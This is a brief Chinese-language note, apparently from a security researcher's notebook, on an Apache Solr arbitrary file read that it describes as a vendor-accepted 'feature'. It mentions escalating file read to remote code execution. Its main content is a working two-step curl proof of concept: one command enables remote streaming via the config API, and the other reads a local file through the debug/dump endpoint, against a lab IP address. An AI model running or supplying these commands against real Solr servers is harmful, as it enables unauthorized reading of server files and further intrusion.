 # Solr-file_read



一个官方觉得是feature而不修复的漏洞

如何read to RCE 值得思考



POC:

```
curl -d '{  "set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}' http://192.168.33.130:8983/solr/db/config -H 'Content-type:application/json' 

curl "http://192.168.33.130:8983/solr/db/debug/dump?param=ContentStreams" -F "stream.url=file:///C:/a.txt" 

```



![image-20210318213800442](https://gitee.com/svenbeast/NotePicture/raw/master/img/2021/03/18/15551_image-20210318213800442.png)


